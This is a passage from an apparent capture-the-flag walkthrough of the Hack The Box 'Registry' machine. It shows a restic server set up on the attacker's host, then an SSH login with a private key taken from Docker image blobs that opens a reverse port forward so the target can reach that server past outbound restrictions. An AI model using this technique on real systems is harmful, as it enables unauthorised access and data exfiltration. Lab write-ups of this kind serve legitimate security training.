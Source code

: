 kali@back0ff:~/Documents/HTB-Labs/Registry$ restic init -r rest:http://0.0.0.0:8000/
enter password for new repository: 
enter password again: 
created restic repository afc16c9776 at rest:http://0.0.0.0:8000/

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
```

Having done this, if we try to run the backup command, we cannot connect to the rest-server on TCP 8000. Remember we can't connect outbound from registry.htb to almost anything

At this point, we could also attempt to do SSH Remote Port Forwarding to bind a new service to registry.htb from a **NEW** terminal window:

**SYNTAX:**

```ssh -R <RemotePort>:localhost:<LocalPort> -i <Private_Key> <username>@<remoteHost>

Where:
RemotePort: is the new port you have Registry listen to which will forward data to the localhost:LocalPort.
LocalPort: is the local service (Restic Server) in your host you want SSH on the remote host to forward traffic to.
Private_Key: is the id_rsa file we found from the Docker Blobs.
username: is the bolt user from registry.htb.
remoteHost: is registry.htb.
```


Let's move forward and try this:

```
kali@back0ff:~/Documents/HTB-Labs/Registry$ ssh -R 61234:localhost:8000 -i /home/kali/Documents/HTB-Labs/Registry/2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a1f06f791/root/.ssh/id_rsa bolt@registry.htb

Enter passphrase for key '/home/kali/Documents/HTB-Labs/Registry/2931a8b44e495489fdbe2bccd7232e99b182034206067a364553841a': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Wed Mar 11 01:16:08 UTC 2020

  System load:  0.0               Users logged in:                1
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 43%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    165
Last login: Wed Mar 11 01:06:02 2020 from 10.10.14.49
bolt@bolt:~$ 
```

Before we do anything let's check on what registry.htb is listening to as remote port forwarding will open TCP 61234 through SSH which is allowed.
